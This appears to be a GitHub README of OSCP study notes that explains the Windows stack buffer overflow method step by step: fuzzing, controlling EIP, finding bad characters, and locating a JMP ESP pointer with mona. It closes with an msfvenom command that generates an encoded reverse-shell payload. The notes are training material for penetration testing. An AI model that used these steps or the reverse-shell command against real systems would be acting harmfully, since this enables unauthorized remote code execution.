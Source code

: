 # OSCP buffer overflow notes

Notes of the buffer overflow process.

## Fuzzing the target

Send enough data to the target to trigger the overflow and crash it. Start with sending a payload of `A` (`0x41`) characters for easy identification inside the debugger (sample: `fuzzer.py`). Monitor the target with a debugger  and take note of how much data is needed to cause the crash.

Debuggers:
 - Immunity Debugger (https://www.immunityinc.com/products/debugger/)
 - OllyDbg (http://www.ollydbg.de/version2.html)
 - WinDbg (https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools).

## Take control of EIP

After crashing the application, we need to find exactly how much data is needed to overwrite EIP. This is achieved by changing the payload from `A` characters to a unique string (sample: `eip_offset.py`). When the target crashes, EIP will hold a substring of the unique string (e.g: little-endian `74414674` (`t6At`)). The offset of this substring within the unique string will tell us how much data is needed to overwrite EIP and take control.

Generate the unique string of the required length :

`msf-pattern_create -l <size of data to cause crash>`

After the crash, find the offset of the substring held by EIP at crash time:

`msf-pattern_offset -l <size of data to cause crash> -q <value of EIP>`

Use this offset to create a proof of concept: crash the target and overwrite EIP with 4 `X` (`0x58`) characters (sample: `eip_control.py`).

## Check for space for shellcode payload

Once EIP can be controlled, we need to check there is sufficient space for the shellcode payload. The shellcode we'll use is <400 bytes so arbitrarily round the required space to 500 bytes. The required space can be checked by sending an additional 500 bytes of `C` (`0x43`) characters after the initial buffer overflow. For easier visual checking, append `FOXTROT` (sample: `shellcode_space.py`).

## Find badchars

The bad characters must be identified before the shellcode payload can be sent to the target. badchars are any characters that can't be used by the target due to the protocols used, how the application handles the received input, etc, and this will break the exploit. Identifying the badchars is a process of elimination: use the sample `badchars_check.py` to send a list of all characters to the target, debug the target to review the received data, and any characters that break the input can be considered "bad". Remove the badchars from the list and repeat the process until all badchars have been found.

Note: `badchars_check.py` includes NULL (`0x00`) as the second character in the badchars list to make it easier to identify if the NULL character is bad, instead of the entire list failing to be received by the target.

## Redirect EIP with JMP ESP

After identifying the badchars, we need to find a reliable JMP ESP instruction that can be leveraged to change the execution flow of the target: if EIP can be redirected to the JMP ESP, and ESP points to the start of our shellcode, then our shellcode will be executed.

In Immunity Debugger, use mona to find a pointer to JMP ESP that doesn't include any of the badchars:

`!mona jmp -r esp -cpb "\x00"`

We can also use mona to see a list of modules used by the target, then review this list to identify unprotected modules:

`!mona modules`

When an unprotected module has been found, use mona to find a pointer to JMP ESP (opcode `\xff\xe4`) within the module:

`!mona find -s "\xff\xe4" -m "<name of module>"`

When a pointer has been found, take note of the address.

## Create exploit script

The exploit script (sample: `exploit.py`) will use a 12 byte nopsled to allow room for the shellcode decoder.

The JMP ESP pointer address will replace the original 4 `X` characters used to overwrite EIP. Ensure the address is converted to little-endian format.

Generate the reverse shell shellcode using msfvenom, ensuring to encode the shellcode so all badchars are excluded:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00"`

Copy the shellcode to the exploit script and get the reverse shell ready to catch the incoming connection.